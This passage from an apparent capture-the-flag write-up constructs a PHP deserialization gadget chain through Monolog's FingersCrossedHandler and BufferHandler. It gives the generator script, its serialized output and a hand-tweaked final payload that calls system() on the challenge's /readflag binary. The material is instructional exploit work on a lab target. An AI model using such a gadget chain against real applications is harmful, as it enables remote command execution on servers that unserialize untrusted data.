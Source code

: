 `chain.php`

```php
<?php

require 'gadget.php';

# autoload gadget
class www_frontend_vendor_autoload {}


$obj = array(
    7 => new www_frontend_vendor_autoload(),
    8 => new Monolog\Handler\FingersCrossedHandler("/readflag", new Monolog\Handler\BufferHandler('system')),
);
$serialized_obj = serialize($obj);
echo json_encode($serialized_obj);
```

Our chain triggers the SUID `/readflag` binary supplied by the challenge. Note that we json encode the chain because it is sent through json in the post body. Running this we get our chain:

```sh
$ php chain.php
"a:2:{i:7;O:28:\"www_frontend_vendor_autoload\":0:{}i:8;O:37:\"Monolog\\Handler\\FingersCrossedHandler\":3:{s:16:\"\u0000*\u0000passthruLevel\";i:0;s:9:\"\u0000*\u0000buffer\";a:1:{s:4:\"test\";a:2:{i:0;s:9:\"\/readflag\";s:5:\"level\";N;}}s:10:\"\u0000*\u0000handler\";O:29:\"Monolog\\Handler\\BufferHandler\":7:{s:10:\"\u0000*\u0000handler\";N;s:13:\"\u0000*\u0000bufferSize\";i:-1;s:9:\"\u0000*\u0000buffer\";N;s:8:\"\u0000*\u0000level\";N;s:14:\"\u0000*\u0000initialized\";b:1;s:14:\"\u0000*\u0000bufferLimit\";i:-1;s:13:\"\u0000*\u0000processors\";a:2:{i:0;s:7:\"current\";i:1;s:6:\"system\";}}}}"
```

There is still a small amount of tweaking for behaviour I couldn't achieve in PHP. Firstly, I found the escaping on the forward slash of "\/readflag" broke the chain each time, so we will remove it. Secondly, we can introduce an invalid array entry into the serialized object to replicate the "fast destruct" behaviour of phpggc's -f flag (not sure if required, but I opted for it anyway).

```sh
$ phpggc -h
...
  -f, --fast-destruct
     Applies the fast-destruct technique, so that the object is destroyed
     right after the unserialize() call, as opposed to at the end of the
     script

...
```

after these manual tweaks, we have the payload:

```
"a:3:{i:7;O:28:\"www_frontend_vendor_autoload\":0:{}i:8;O:37:\"Monolog\\Handler\\FingersCrossedHandler\":3:{s:16:\"\u0000*\u0000passthruLevel\";i:0;s:9:\"\u0000*\u0000buffer\";a:1:{s:4:\"test\";a:2:{i:0;s:9:\"/readflag\";s:5:\"level\";N;}}s:10:\"\u0000*\u0000handler\";O:29:\"Monolog\\Handler\\BufferHandler\":7:{s:10:\"\u0000*\u0000handler\";N;s:13:\"\u0000*\u0000bufferSize\";i:-1;s:9:\"\u0000*\u0000buffer\";N;s:8:\"\u0000*\u0000level\";N;s:14:\"\u0000*\u0000initialized\";b:1;s:14:\"\u0000*\u0000bufferLimit\";i:-1;s:13:\"\u0000*\u0000processors\";a:2:{i:0;s:7:\"current\";i:1;s:6:\"system\";}}}i:7;i:7};"
```
